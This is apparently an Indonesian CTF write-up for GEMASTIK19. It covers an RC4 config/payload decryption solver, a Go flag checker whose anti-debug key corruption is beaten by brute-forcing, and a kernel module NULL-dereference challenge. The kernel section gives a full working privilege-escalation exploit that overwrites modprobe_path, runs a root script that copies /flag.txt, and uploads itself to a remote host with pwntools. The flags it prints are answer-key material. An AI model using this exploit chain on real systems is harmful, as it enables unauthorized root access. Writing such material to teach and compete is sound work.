16. Setelah ditelusuri, key buffer di stack disusun dari dua sumber:

- 16 byte tetap dari `.rodata` `0x20d0`: `bb08471f75bf63ed2ae59e8d5b1cc3f2`
- 8 byte salt dari env, hasil hex-decode `4c7afa2b34c5325f`

Env var-nya emang di-hex-decode dulu, bukan dipakai apa adanya: ada cabang di disassembly yang
jalan waktu panjang env > 15 char, isinya loop baca 2 karakter hex tiap iterasi terus geser 4 bit.
Kunci 24 byte itu (`fixed(16) || salt(8)`) mendekripsi blob 37 byte di `0x2040`, hasilnya config:

```
H=127.0.0.1|P=9000|S=ccec6519f7e59a83
```

**Lapis 2: dekripsi payload.** Secret `S=ccec6519f7e59a83` dari config dipakai jadi kunci RC4 buat
51 byte payload dari pcap. Satu jebakan halus: secret-nya juga di-hex-decode dulu jadi 8 byte
(konsisten sama salt di lapis 1), bukan dipakai sebagai 16 char ASCII. Kalau dipakai ASCII langsung
hasilnya sampah dan nggak bisa di-decode UTF-8.

---


Solver lengkapnya:

```python
import struct
import re

def extract_pcap_payload(pcap_path):
    with open(pcap_path, "rb") as f:
        d = f.read()
    
    # Deteksi endianness pcap
    endian = ">" if d[:4] in (b"\xa1\xb2\xc3\xd4", b"\xa1\xb2\x3c\x4d") else "<"
    off = 24
    out = b""
    
    while off + 16 <= len(d):
        _t, _u, incl, _o = struct.unpack(endian + "IIII", d[off:off+16])
        pkt = d[off+16:off+16+incl]
        off += 16 + incl
        
        # Filter paket TCP valid yang memiliki payload
        if len(pkt) < 34 or pkt[23] != 6:
            continue
        
        ihl = (pkt[14] & 0x0f) * 4
        t = 14 + ihl
        if len(pkt) < t + 14:
            continue
            
        doff = (pkt[t + 12] >> 4) * 4
        pl = pkt[t + doff:]
        if pl:
            out += pl
            
    return out

def extract_env_salt(core_path):
    with open(core_path, "rb") as f:
        d = f.read()
    m = re.search(rb"GIO_LAUNCHED_DESKTOP_FILE=([ -~]+)", d)
    if not m:
        raise ValueError("GIO_LAUNCHED_DESKTOP_FILE tidak ditemukan di core dump.")
    
    env_str = m.group(1).decode("ascii").strip('\x00')
    # Ambil 16 karakter pertama format hex
    return env_str[:16]

def get_sensor_blobs(sensor_path):
    with open(sensor_path, "rb") as f:
        d = f.read()
    
    fixed_key = d[0x20d0:0x20d0 + 16]
    encrypted_config = d[0x2040:0x2040 + 37]
    return fixed_key, encrypted_config

def rc4(key, data):
    S = list(range(256))
    j = 0
    out = bytearray()
    
    # KSA
    for i in range(256):
        j = (j + S[i] + key[i % len(key)]) % 256
        S[i], S[j] = S[j], S[i]
        
    # PRGA
    i = j = 0
    for byte in data:
        i = (i + 1) % 256
        j = (j + S[i]) % 256
        S[i], S[j] = S[j], S[i]
        k = S[(S[i] + S[j]) % 256]
        out.append(byte ^ k)
        
    return bytes(out)

def main():
    print("[*] Membaca payload dari capture.pcap...")
    payload = extract_pcap_payload("capture.pcap")
    print(f"[+] Panjang payload jaringan terkumpul: {len(payload)} byte")

    print("[*] Mengekstrak salt env dari victim.core...")
    env_hex = extract_env_salt("victim.core")
    print(f"[+] Ditemukan env hex: {env_hex}")
    salt_bytes = bytes.fromhex(env_hex)

    print("[*] Membaca blob konstan dari binary sensor...")
    fixed_key, encrypted_config = get_sensor_blobs("sensor")

    # Rantai Kunci Pertama: 16 byte fixed + 8 byte salt (hasil decode env hex)
    key1 = fixed_key + salt_bytes
    print(f"[+] Panjang Kunci RC4-1: {len(key1)} byte")

    print("[*] Mendekripsi konfigurasi (Lapis 1)...")
    decrypted_config_bytes = rc4(key1, encrypted_config)
    
    try:
        config_str = decrypted_config_bytes.decode("utf-8")
    except UnicodeDecodeError:
        print("[-] Gagal mendatapkan teks UTF-8 yang valid. Kunci RC4-1 salah.")
        return

    print(f"[+] Config Terdekripsi: {config_str}")

    # Ekstraksi secret key (S=...) dari hasil konfigurasi
    match = re.search(r"S=([0-9a-fA-F]+)", config_str)
    if not match:
        print("[-] Parameter 'S=' tidak ditemukan dalam konfigurasi terdekripsi.")
        return
        
    secret_hex = match.group(1)
    print(f"[+] Ditemukan secret hex dari config: {secret_hex}")
    secret_bytes = bytes.fromhex(secret_hex)

    print("[*] Mendekripsi payload jaringan (Lapis 2)...")
    final_payload = rc4(secret_bytes, payload)

    try:
        flag = final_payload.decode("utf-8")
    except UnicodeDecodeError:
        print("[-] Payload akhir bukan format UTF-8 yang valid. Kunci RC4-2 salah.")
        return

    print("\n[+] BERHASIL! Hasil Dekripsi Akhir:")
    print(flag)

if __name__ == "__main__":
    main()

```

```bash
$ python3 ghost-solved.py
```

Cukup stdlib Python, nggak ada yang dihardcode: payload di-parse dari pcap (endianness dideteksi
dari magic number, paket kosong di-skip, payload searah digabung), salt di-regex dari core,
16 byte tetap + blob config 37 byte dibaca dari binary `sensor` yang di-carve. Offset `0x20d0` sama
`0x2040` boleh dihardcode karena itu memang offset di dalam binary-nya. Karena RC4 nggak punya tag
autentikasi, verifikasinya pakai cek hasil akhir bisa di-decode UTF-8 atau nggak.

```
salt   = hex_decode( env GIO_LAUNCHED_DESKTOP_FILE )      # 8 byte
key1   = rodata[0x20d0:+16] + salt                        # 24 byte
config = RC4(key1, rodata[0x2040:+37])                    # -> H=...|P=...|S=...
key2   = hex_decode( config["S"] )                        # 8 byte
flag   = RC4(key2, payload_51_byte)
```


<details>
<summary>Log lengkap</summary>

```text
[*] Membaca payload dari capture.pcap...
[+] Panjang payload jaringan terkumpul: 51 byte
[*] Mengekstrak salt env dari victim.core...
[+] Ditemukan env hex: 4c7afa2b34c5325f
[*] Membaca blob konstan dari binary sensor...
[+] Panjang Kunci RC4-1: 24 byte
[*] Mendekripsi konfigurasi (Lapis 1)...
[+] Config Terdekripsi: H=127.0.0.1|P=9000|S=ccec6519f7e59a83
[+] Ditemukan secret hex dari config: ccec6519f7e59a83
[*] Mendekripsi payload jaringan (Lapis 2)...

[+] BERHASIL! Hasil Dekripsi Akhir:
GEMASTIK19{gh0st_1n_th3_c0re_rc4_s4lt_fr0m_3nv1r0n}
```
</details>

---

> **FLAG:** `GEMASTIK19{gh0st_1n_th3_c0re_rc4_s4lt_fr0m_3nv1r0n}`

---

---

# 9. `hexlock` — reverse


---

### Deskripsi Soal

> Line to codes? how to use: `./hexlock 'GEMASTIK19{...}'`
>
> Author: wondping0

Attachment cuma satu file: `hexlock` (ELF 64-bit, statis, stripped, ~1.5 MB).

Jadi ini flag checker: kasih tebakan flag lewat argumen, dia jawab `Correct!` atau `Wrong.`.



---

### Exploitation Step

Coba jalanin dulu, terus intip binarynya:

```bash
$ file hexlock
hexlock: ELF 64-bit LSB executable, x86-64, statically linked, stripped

$ echo 'GEMASTIK19{test}' | ./hexlock
Wrong.

$ strings -n 8 hexlock | grep -aoE "runtime\.|GCC:" | head
GCC: (Ubuntu ...)          # ada runtime.* juga -> ini binary Go

$ strings hexlock | grep -aoE "main\.[A-Za-z_]+" | head
                           # kosong

$ readelf -S hexlock | grep gopclntab
  [ 6] .gopclntab  PROGBITS  00000000004fbc60 ...
```



Yang saya catat:

- Ini binary **Go**, statis dan stripped, ukuran ~1.5 MB. Ada `.gopclntab` (tabel simbol Go),
  tapi `main.*` sama versi `go1.x` kosong di strings. Curiga di-obfuscate.
- Waktu saya parse `.gopclntab` manual, magic di `0xfbc60` isinya `0x831bae3e`, bukan magic Go mana
  pun. Kelihatan sengaja dipatch. Tapi `nfunc = 1915` dan `textStart = 0x401000` cocok dengan VA
  `.text`, jadi layoutnya masih standar. Dari 1915 fungsi cuma 383 yang masih punya nama, sisanya
  `nameOff = 0`. Nama paket teracak. Ini ciri khas **garble**.
- Di daftar fungsi yang tersisa ada method `.Seal` (berarti ada AEAD/kripto) dan tipe-tipe
  `debug/elf` (berarti program baca file ELF, kemungkinan dirinya sendiri).

---


**Nyari fungsi utama.** Nama `main.main` udah hilang, jadi saya lewat string. Cari `Wrong.` dan
`Correct!` di `.rodata`, terus karena string Go direferensi lewat header `{ptr, len}`, saya cari
pointer 8-byte yang nunjuk ke alamat string itu. Ketemu header `Wrong` di `0x4f7c90` dan `Correct`
di `0x4f7c80`. Grep disassembly buat `lea` ke header itu, mendarat di `0x4ad074`/`0x4ad0e3`, dan
fungsi induknya mulai di `0x4ace40`.

Alur checker-nya:

```
panjang input harus 44  (GEMASTIK19{ + 32 char isi + })
call 0x4acba0    -> hasilnya 16 byte (kunci AES)
call 0x4acd40    -> Seal(input) -> blob
cmp [0x56f498]   -> cek panjang
loop: or esi, buf[i] ^ target[i]   -> constant-time compare vs blob 66 byte di 0x56f490
```

Di dalam `0x4acd40`: `aes.NewCipher` (key 16 byte) lalu `NewGCM` (nonce 12, tag 16) lalu
`AEAD.Seal(input)`. Jadi checkernya: **`AES-128-GCM Seal(input) == blob 66 byte`**. Karena output
GCM = panjang input + 16 byte tag, dan blob-nya 66 byte, berarti **panjang flag = 50**.

Bahan yang saya kumpulin:
- nonce (statis di `0x567148`): `194b00b0922d969e007055a4`
- blob pembanding (header `{ptr,len}` di `0x56f490`): 66 byte
- key: dihitung runtime, jadi saya ambil lewat gdb breakpoint di `0x4acd77`

**Ini bagian yang bikin mentok.** Key hasil gdb dipakai buat `decrypt_and_verify`, hasilnya `MAC
check failed`. Ternyata ada **dua proteksi** di fungsi derivasi key `0x4acba0`:

1. **Anti-debug**: baca `/proc/self/status`, cari `TracerPid`. Kalau ketahuan lagi di-debug,
   `keymat[5] ^= 0x11`. Jadi key hasil gdb selalu salah satu byte.
2. **Self-integrity**: baca `/proc/self/exe`, hash binary-nya sendiri ikut jadi bahan key. Jadi
   nge-patch binary juga bikin key meleset total.

Buntu dua arah: pakai debugger key dirusak, patch binary hash berubah.

**Celahnya** ada di loop pencampuran key di `0x4acc8c`:

```
key[i] = rol(tabel[i] ^ keymat[i], 3) ^ hash_exe[i]
```

Semua operasinya **per-byte, indeks ke indeks, tanpa difusi**. Artinya korupsi `keymat[5]` dari
anti-debug cuma merusak **satu byte** di key akhir, sisanya tetap bener. Nilai byte yang benar
nggak bisa ditebak langsung (`^ 0x11` gagal karena kena `rol 3` dan penggabungan hash), tapi ruang
carinya kecil banget.

Jadi tinggal **brute-force 16 posisi × 256 nilai = 4096 kombinasi**, dan pakai **tag GCM sebagai
oracle**: `decrypt_and_verify` cuma lolos kalau key-nya bener.

---


Solver lengkapnya:

```python
import subprocess
import re
from Crypto.Cipher import AES

def va_to_file(va):
    """
    Konversi Virtual Address (VA) ke File Offset berdasarkan peta section biner:
    .rodata    : VA 0x4ae000, file 0xae000
    .noptrdata : VA 0x567040, file 0x167040
    .data      : VA 0x56efc0, file 0x16efc0
    Delta konsisten untuk section-section ini adalah 0x400000.
    """
    return va - 0x400000

print("[*] Membaca biner 'hexlock'...")
with open("hexlock", "rb") as f:
    binary_data = f.read()

# 1. Membaca Nonce dari VA 0x567148 (panjang 12 byte)
nonce_file_offset = va_to_file(0x567148)
nonce = binary_data[nonce_file_offset:nonce_file_offset + 12]
print(f"[+] Nonce berhasil dibaca ({len(nonce)} byte): {nonce.hex()}")

# 2. Membaca Header {ptr, len} di VA 0x56f490 (16 byte: 8 byte pointer + 8 byte length)
header_file_offset = va_to_file(0x56f490)
header_bytes = binary_data[header_file_offset:header_file_offset + 16]
blob_ptr = int.from_bytes(header_bytes[0:8], byteorder='little')
blob_len = int.from_bytes(header_bytes[8:16], byteorder='little')
print(f"[+] Blob Pointer (VA): {hex(blob_ptr)}, Total Panjang Blob: {blob_len} byte")

# Membaca data blob menggunakan pointer VA yang dikonversi ke file offset
blob_file_offset = va_to_file(blob_ptr)
blob_data = binary_data[blob_file_offset:blob_file_offset + blob_len]

# Panjang flag diturunkan dari total panjang blob dikurangi tag GCM (16 byte)
flag_len = blob_len - 16
print(f"[+] Panjang flag yang disimpulkan: {flag_len} karakter")

ciphertext = blob_data[:-16]
tag = blob_data[-16:]

# 3. Mengambil base key melalui GDB subprocess
print("[*] Menjalankan GDB untuk mengambil base key...")
gdb_cmd = [
    "gdb", "-batch", "-nx",
    "-ex", "break *0x4acd77",
    "-ex", "run 'GEMASTIK19{test}'",
    "-ex", "x/16bx $rax",
    "./hexlock"
]
gdb_result = subprocess.run(gdb_cmd, capture_output=True, text=True)

# Parsing nilai hex secara ketat hanya dari baris memori GDB (setelah tanda ':')
base_key_bytes = []
for line in gdb_result.stdout.splitlines():
    if ":" in line:
        # Ambil bagian setelah tanda titik dua untuk menghindari alamat memori
        data_part = line.split(":", 1)[1]
        matches = re.findall(r'0x[0-9a-fA-F]{2}', data_part)
        for m in matches:
            base_key_bytes.append(int(m, 16))

if len(base_key_bytes) < 16:
    print("[-] Gagal mengekstrak key dari output GDB!")
    print(gdb_result.stdout)
    exit(1)

# Ambil tepat 16 byte terakhir
base_key_bytes = base_key_bytes[-16:]
base_key = bytearray(base_key_bytes)

print(f"[+] Base key dari GDB: {base_key.hex()}")
print("    [CATATAN PENTING: Kunci di atas UDAH TERKORUPSI karena mekanisme anti-debug / TracerPid]")
print("    [                saat GDB melampirkan diri. Kita menggunakan kunci ini sebagai base       ]")
print("    [                untuk brute-force perbaikan byte.]")

# 4. Brute-force semua 16 posisi x 256 kemungkinan nilai byte (4096 kombinasi total)
print("[*] Memulai brute-force 4096 kombinasi key untuk verifikasi GCM...")
correct_plaintext = None
found = False

for pos in range(16):
    original_byte = base_key[pos]
    for b in range(256):
        base_key[pos] = b
        try:
            cipher = AES.new(bytes(base_key), AES.MODE_GCM, nonce=nonce)
            plaintext = cipher.decrypt_and_verify(ciphertext, tag)
            correct_plaintext = plaintext
            found = True
            print(f"[+] Kunci valid ditemukan! Posisi byte ke-{pos} diubah ke {hex(b)}")
            break
        except ValueError:
            # GCM autentikasi gagal (tag mismatch)
            continue
    if found:
        break
    # Kembalikan ke byte semula jika posisi ini bukan sumber masalah
    base_key[pos] = original_byte

if not found or not correct_plaintext:
    print("[-] Brute-force gagal: Tidak ada kombinasi kunci yang lolos verifikasi tag GCM.")
    exit(1)

flag = correct_plaintext.decode()
print(f"[+] Flag berhasil didekripsi: {flag}")

# 5. Verifikasi otomatis dengan menjalankan binary ./hexlock lewat subprocess
print("[*] Melakukan verifikasi otomatis dengan mengeksekusi binary...")
run_res = subprocess.run(["./hexlock", flag], capture_output=True, text=True)
binary_output = run_res.stdout + run_res.stderr
print(f"[+] Output biner:\n{binary_output.strip()}")

if "Correct!" in binary_output:
    print("[SUKSES] Flag terverifikasi 100% BENAR oleh program asli!")
else:
    print("[-] Peringatan: Dekripsi GCM berhasil, namun biner tidak mencetak 'Correct!'.")

```

```bash
$ python3 hexlock-solved.py
```

Inti alurnya: baca nonce + blob langsung dari binary (VA ke file offset), ambil key terkorupsi via
gdb, brute-force 4096 kombinasi, verifikasi tiap kandidat pakai tag GCM, terakhir cek ke binary
aslinya.

```python
# nonce & blob dibaca dari binary, bukan dihardcode
nonce = binary[va_to_file(0x567148):][:12]
ptr, ln = struct(header di 0x56f490)                 # {ptr, len}
blob = binary[va_to_file(ptr):][:ln]                 # 66 byte, flag = ln - 16 = 50

# key dari gdb -- INI UDAH TERKORUPSI 1 byte gara-gara anti-debug
base_key = gdb_dump(breakpoint 0x4acd77, "x/16bx $rax")

# brute-force 16 posisi x 256, tag GCM yang mutusin
for pos in range(16):
    for b in range(256):
        base_key[pos] = b
        try:
            flag = AES.new(bytes(base_key), AES.MODE_GCM, nonce=nonce).decrypt_and_verify(ct, tag)
            # ketemu
        except ValueError:
            continue
```



<details>
<summary>Log lengkap</summary>

```text
[*] Menjalankan GDB untuk mengambil base key...
[+] Base key dari GDB: 7f8a720509d6db11515d302c2695808a
    [CATATAN PENTING: Kunci di atas UDAH TERKORUPSI karena mekanisme anti-debug / TracerPid]
[*] Memulai brute-force 4096 kombinasi key untuk verifikasi GCM...
[+] Kunci valid ditemukan! Posisi byte ke-5 diubah ke 0x5e
[+] Flag berhasil didekripsi: GEMASTIK19{6_sh4rd5_r34ss3mbl3_th3_g0ph3r5_s3cr3t}
[*] Melakukan verifikasi otomatis dengan mengeksekusi binary...
[+] Output biner:
Correct!
[SUKSES] Flag terverifikasi 100% BENAR oleh program asli!
```

Byte ke-5 key: dari gdb `0xd6`, yang bener `0x5e`. Key asli: `7f8a7205095edb11515d302c2695808a`.
</details>

---

> **FLAG:** `GEMASTIK19{6_sh4rd5_r34ss3mbl3_th3_g0ph3r5_s3cr3t}`

---

---

# 10. `mantra` — pwn / kernel


---

### Deskripsi Soal

> pemanasan dulu biar panas ya mas
>
> `print(10+6)` -> `17`
>
> Author: hanzo

Remote: `nc 15.232.64.175 13338`. Handout: `handout.zip` isinya `bzImage`, `rootfs.cpio.gz`,
`mantra.ko`, `run.sh`, `System.map`.

Deskripsinya ngeledek "pemanasan", tapi ini kernel exploitation beneran. Nama flag-nya sendiri
bocorin bug-nya: *not all pointers point somewhere, some point to zero*.


---

### Exploitation Step

Handout cuma satu file, `handout.zip`. Semua bahan analisis diekstrak dari situ:

```bash
$ unzip -l handout.zip
    mantra.ko          # modul rentan (objdump/readelf)
    rootfs.cpio.gz     # initramfs, login uid 1000
    run.sh             # perintah qemu -> mitigasi
    System.map         # tabel simbol kernel (alamat tetap krn nokaslr)
    bzImage            # kernel Linux
```

Jadi `run.sh` datang langsung dari `handout.zip`. Tapi `init` (skrip setup korban) nggak ada di
zip, dia di dalam initramfs `rootfs.cpio.gz`, jadi diekstrak dulu:

```bash
$ mkdir rootfs && cd rootfs
$ zcat ../rootfs.cpio.gz | cpio -idm
$ cat init
```

**Mitigasi dari `run.sh`:**

```bash
qemu-system-x86_64 ... -cpu qemu64,+smep -smp 1 \
  -append "console=ttyS0 nokaslr nopti oops=panic panic=-1 quiet loglevel=1"
```

| KASLR | **off** (`nokaslr`) | alamat kernel tetap, tinggal baca dari `System.map` |
| KPTI | **off** (`nopti`) | nggak ngehalangin (kita nggak ret2usr) |
| SMEP | on | nggak bisa eksekusi kode userland di ring0 |
| SMAP | **off** | kernel bebas baca/tulis memori userland |

**Setup korban dari `rootfs/init`:**

```sh
sysctl -w vm.mmap_min_addr=0     # <- KUNCI: halaman NULL boleh di-map user
insmod /mantra.ko
chmod 0666 /dev/mantra           # device world-accessible
chown 0:0 /flag.txt; chmod 0400 /flag.txt   # flag root-only
setsid cttyhack setuidgid 1000 /bin/sh       # kita = uid 1000
```


Jadi skenarionya klasik LPE: shell kita uid 1000, nggak bisa baca `/flag.txt` (0400 milik root),
tapi `/dev/mantra` bisa diakses siapa aja. Harus eksploitasi modul buat naik jadi root.
`misc_register` di simbol modul artinya device node `/dev/mantra` dibuat otomatis, nyambung ke
`file_operations` (open/release/ioctl).

Dan yang paling penting: **`mmap_min_addr=0`**. Ini gerbang eksploitasinya. Tanpa itu, NULL-deref
cuma jadi DoS.

---


Modul nggak stripped. Tiga fungsi: `mantra_open`, `mantra_release`, `mantra_ioctl`.

- `mantra_open`: set `filp->private_data` (`file+0xc8`) = `NULL`, return 0.
- `mantra_release`: kalau `private_data` nggak NULL, `kfree` tiga hal (`+0x00`, `+0x10`, struct),
  terus set NULL lagi. Field `+0x08` nggak di-free (berarti bukan pointer, itu length).

Dari situ struct-nya ketebak, 0x20 byte:

```c
struct mantra {
    void   *key_ptr;   // +0x00
    size_t  key_len;   // +0x08
    void   *buf_ptr;   // +0x10  (data)
    size_t  buf_len;   // +0x18
};
```

`mantra_ioctl` muat `rbx = filp->private_data` di awal, terus switch berdasarkan cmd:

| `0x4D10` | INIT | `kzalloc(0x20)` -> `private_data` | ya (`test rbx,rbx` @ `0x21f`) |
| `0x4D11` | SET_KEY | `kmalloc(len)` + `copy_from_user`, set `key_ptr/key_len` | **ya** (@ `0x189`) |
| `0x4D12` | SET_DATA | `kmalloc(len)` + `copy_from_user`, set `buf_ptr/buf_len` | **ya** (@ `0x2af`) |
| `0x4D13` | READ | `copy_to_user(uptr, buf_ptr, min(reqlen, buf_len))` | **TIDAK** (@ `0x256`) |
| `0x4D14` | XOR | `for i: buf_ptr[i] ^= key_ptr[i % key_len]` | **TIDAK** (@ `0xfe`) |

**Ini inti bug-nya.** Tiga handler (INIT/SET_KEY/SET_DATA) manggil `test rbx,rbx` sebelum nyentuh
struct. Tapi READ dan XOR langsung men-dereference `rbx` tanpa cek:

```
; XOR (0x4D14) @ 0xfe
 fe: 48 8b 13         mov rdx,[rbx]         ; key_ptr  <- deref rbx tanpa cek!
101: 48 85 d2         test rdx,rdx          ; yang dicek key_ptr, bukan rbx
10a: 48 8b 43 10      mov rax,[rbx+0x10]    ; buf_ptr

; READ (0x4D13) @ 0x256
271: 48 8b 43 18      mov rax,[rbx+0x18]    ; buf_len   <- deref rbx tanpa cek!
282: 48 8b 73 10      mov rsi,[rbx+0x10]    ; buf_ptr
```

Kalau kita **nggak** panggil INIT, `private_data` tetap `NULL`. Manggil READ/XOR bikin modul baca
struct dari alamat `0x0`. Karena `mmap_min_addr=0`, kita bisa `mmap` halaman `0x0` dan **kontrol
penuh isi struct palsu**, termasuk `buf_ptr`.

**Dua primitif** dari struct palsu di alamat 0:

- **READ (0x4D13)** -> `copy_to_user(uptr, buf_ptr, len)` = **arbitrary read** dari `buf_ptr`.
- **XOR (0x4D14)** -> `buf_ptr[i] ^= key_ptr[i % key_len]` = **arbitrary XOR-write** ke `buf_ptr`.

XOR-write itu arbitrary write penuh: baca byte lama, hitung `key = lama ^ target`, XOR jadiin
`target`. Dan READ nyediain bacaan byte lama-nya.

**Target: `modprobe_path`.** Waktu kernel gagal eksekusi file dengan magic tak dikenal, dia
manggil `call_usermodehelper(modprobe_path, ...)` **sebagai root**. `modprobe_path` string global
`/sbin/modprobe` yang bisa ditulis. Timpa jadi `/tmp/pwn`, picu, skrip kita jalan sebagai root.
Karena nokaslr, alamatnya tetap dari `System.map`:

```
ffffffff82b3f580 D modprobe_path
```

---


Solver lengkapnya:

```c
#define SYS_read 0
#define SYS_write 1
#define SYS_open 2
#define SYS_close 3
#define SYS_mmap 9
#define SYS_ioctl 16
#define SYS_fork 57
#define SYS_execve 59
#define SYS_wait4 61
#define SYS_exit 60

static long sc0(long n) {
  long r;
  __asm__ volatile("syscall" : "=a"(r) : "a"(n) : "rcx", "r11", "memory");
  return r;
}

static long sc1(long n, long a1) {
  long r;
  __asm__ volatile("syscall"
                   : "=a"(r)
                   : "a"(n), "D"(a1)
                   : "rcx", "r11", "memory");
  return r;
}

static long sc2(long n, long a1, long a2) {
  long r;
  __asm__ volatile("syscall"
                   : "=a"(r)
                   : "a"(n), "D"(a1), "S"(a2)
                   : "rcx", "r11", "memory");
  return r;
}

static long sc3(long n, long a1, long a2, long a3) {
  long r;
  __asm__ volatile("syscall"
                   : "=a"(r)
                   : "a"(n), "D"(a1), "S"(a2), "d"(a3)
                   : "rcx", "r11", "memory");
  return r;
}

static long sc6(long n, long a1, long a2, long a3, long a4, long a5, long a6) {
  register long _a4 __asm__("r10") = a4;
  register long _a5 __asm__("r8") = a5;
  register long _a6 __asm__("r9") = a6;
  long r;
  __asm__ volatile("syscall"
                   : "=a"(r)
                   : "a"(n), "D"(a1), "S"(a2), "d"(a3), "r"(_a4), "r"(_a5),
                     "r"(_a6)
                   : "rcx", "r11", "memory");
  return r;
}

#define sys_mmap(addr, len, prot, flags, fd, off)                              \
  sc6(SYS_mmap, (long)(addr), (long)(len), (long)(prot), (long)(flags),        \
      (long)(fd), (long)(off))
#define sys_open(filename, flags, mode)                                        \
  sc3(SYS_open, (long)(filename), (long)(flags), (long)(mode))
#define sys_close(fd) sc1(SYS_close, (long)(fd))
#define sys_ioctl(fd, req, arg)                                                \
  sc3(SYS_ioctl, (long)(fd), (long)(req), (long)(arg))
#define sys_write(fd, buf, len)                                                \
  sc3(SYS_write, (long)(fd), (long)(buf), (long)(len))
#define sys_read(fd, buf, len)                                                 \
  sc3(SYS_read, (long)(fd), (long)(buf), (long)(len))
#define sys_execve(filename, argv, envp)                                       \
  sc3(SYS_execve, (long)(filename), (long)(argv), (long)(envp))
#define sys_exit(code) sc1(SYS_exit, (long)(code))

static void *hide_ptr(void *p) {
  void *out;
  __asm__ volatile("mov %1, %0" : "=r"(out) : "r"(p));
  return out;
}

void _start(void) {
  // 1. Buka device /dev/mantra (O_RDWR = 2)
  int fd = sys_open("/dev/mantra", 2, 0);
  if (fd < 0)
    sys_exit(1);

  // 2. Mmap halaman 0
  void *map = (void *)sys_mmap(0, 0x1000, 3, 0x32, -1, 0);
  if (map != 0)
    sys_exit(2);

  volatile unsigned long *fake = (volatile unsigned long *)hide_ptr((void *)0);
  char *key_buf = (char *)hide_ptr((void *)0x300);
  unsigned long *read_arg = (unsigned long *)hide_ptr((void *)0x100);
  char *old_path = (char *)hide_ptr((void *)0x200);

  fake[0] = (unsigned long)0x300;
  fake[1] = 9;
  fake[2] = 0xffffffff82b3f580; // modprobe_path
  fake[3] = 9;

  read_arg[0] = (unsigned long)0x200;
  read_arg[1] = 9;

  // 3. Baca modprobe_path asli
  long ret = sys_ioctl(fd, 0x4D13, (long)read_arg);
  if (ret < 0)
    sys_exit(3);

  char desired[9] = "/tmp/pwn";
  desired[8] = '\0';

  for (int i = 0; i < 9; i++) {
    key_buf[i] = old_path[i] ^ desired[i];
  }

  // 4. Timpa modprobe_path via XOR
  ret = sys_ioctl(fd, 0x4D14, 0);
  if (ret < 0)
    sys_exit(4);

  sys_write(1, "[+] modprobe_path overwritten successfully!\n", 43);

  // 5. Buat script /tmp/pwn (O_CREAT=0100 | O_WRONLY=01 | O_TRUNC=01000 = 577)
  const char *pwn_script =
      "#!/bin/sh\ncp /flag.txt /tmp/flag\nchmod 777 /tmp/flag\n";
  int pwn_len = 0;
  while (pwn_script[pwn_len])
    pwn_len++;

  int pfd = sys_open("/tmp/pwn", 577, 0777);
  if (pfd >= 0) {
    sys_write(pfd, pwn_script, pwn_len);
    sys_close(pfd);
  }

  // 6. Buat file dummy /tmp/dummy (4 byte \xff)
  const char *dummy_content = "\xff\xff\xff\xff";
  int dfd = sys_open("/tmp/dummy", 577, 0777);
  if (dfd >= 0) {
    sys_write(dfd, dummy_content, 4);
    sys_close(dfd);
  }

  // 7. Fork dan exec /tmp/dummy untuk memicu modprobe
  long pid = sc0(SYS_fork);
  if (pid == 0) {
    char *argv[] = {"/tmp/dummy", 0};
    char *envp[] = {0};
    sys_execve("/tmp/dummy", argv, envp);
    sys_exit(0);
  } else if (pid > 0) {
    long status;
    sc6(SYS_wait4, pid, (long)&status, 0, 0, 0, 0);
  }

  // 8. Baca dan print flag dari /tmp/flag
  int ffd = sys_open("/tmp/flag", 0, 0); // O_RDONLY = 0
  if (ffd >= 0) {
    char flag_buf[128];
    long n = sys_read(ffd, flag_buf, sizeof(flag_buf));
    if (n > 0) {
      sys_write(1, "\n=== FLAG OUTPUT ===\n", 21);
      sys_write(1, flag_buf, n);
      sys_write(1, "\n", 1);
    }
    sys_close(ffd);
  }

  sys_exit(0);
}
```

Delivery script (pwntools):

```python
import base64
import subprocess
import time
from pwn import remote

HOST = '15.232.64.175'
PORT = 13338

print("[*] Compiling solve_tiny.c locally...")
subprocess.run([
    'gcc', '-nostdlib', '-static', '-Os',
    '-fno-builtin', '-fno-delete-null-pointer-checks', '-fno-stack-protector',
    '-o', 'solve_tiny', 'solve_tiny.c', '-Wl,-e,_start'
], check=True)

subprocess.run(['strip', 'solve_tiny'], check=True)

with open('solve_tiny', 'rb') as f:
    binary_data = f.read()

b64_data = base64.b64encode(binary_data).decode()
print(f"[*] Binary compiled and encoded. Size: {len(binary_data)} bytes (b64: {len(b64_data)} chars)")

print(f"[*] Connecting to {HOST}:{PORT}...")
io = remote(HOST, PORT)

print("[*] Waiting for boot / shell prompt...")
io.recvuntil(b'$ ', timeout=15)
time.sleep(1)

print("[*] Uploading exploit binary via chunked base64 (400 chars/chunk)...")
chunk_size = 400
for i in range(0, len(b64_data), chunk_size):
    chunk = b64_data[i:i+chunk_size]
    io.sendline(f"echo -n '{chunk}' >> /tmp/b64".encode())
    io.recvuntil(b'$ ')

print("[*] Decoding binary and setting permissions...")
io.sendline(b"base64 -d /tmp/b64 > /tmp/solve && chmod +x /tmp/solve")
io.recvuntil(b'$ ', timeout=3)

print("[*] Running exploit binary...")
io.sendline(b"/tmp/solve")

# Terima seluruh output dari eksekusi binary C di dalam VM
output = io.recvuntil(b'$ ', timeout=10).decode()
print(output)

io.interactive()
```
[`exploit.py`](exploit.py) (delivery pwntools). Jalanin:

```bash
$ python3 exploit.py
```

**Kenapa solve_tiny.c harus tanpa libc.** Upload ke VM lewat serial console QEMU pakai base64.
Static glibc binary itu 800 KB+ dan bakal timeout. Kompilasi `-nostdlib` bikin binary-nya cuma
~9 KB, pakai raw syscall.

**Dua jebakan kompiler yang harus dikalahin:**

1. **Optimizer NULL.** GCC anggap dereference `NULL` sebagai UB dan bisa ganti tulisan ke alamat 0
   jadi `ud2` (SIGILL). Solusinya `-fno-delete-null-pointer-checks` + fungsi `hide_ptr()` yang
   nyuci pointer lewat inline-asm biar kompiler nggak tahu itu NULL.
2. **Register syscall.** Wrapper syscall harus pakai constraint register yang bener
   (`"D"`=rdi, `"S"`=rsi, `"d"`=rdx, register var buat r10/r8/r9), bukan `"r"` yang bikin GCC bebas
   milih register dan bikin semua syscall ngaco.

Alur di dalam `solve_tiny.c`:

```c
mmap(0, 0x1000, RW, MAP_FIXED|MAP_PRIVATE|MAP_ANON, -1, 0);   // halaman NULL
fake[0]=0x300; fake[1]=9;                    // key_ptr, key_len
fake[2]=0xffffffff82b3f580; fake[3]=9;       // buf_ptr=modprobe_path, buf_len
ioctl(fd, 0x4D13, {uptr:0x200, len:9});      // READ: baca "/sbin/mod"
for i: key[i] = old[i] ^ "/tmp/pwn"[i];      // hitung XOR key
ioctl(fd, 0x4D14, 0);                        // XOR-write: modprobe_path -> "/tmp/pwn"
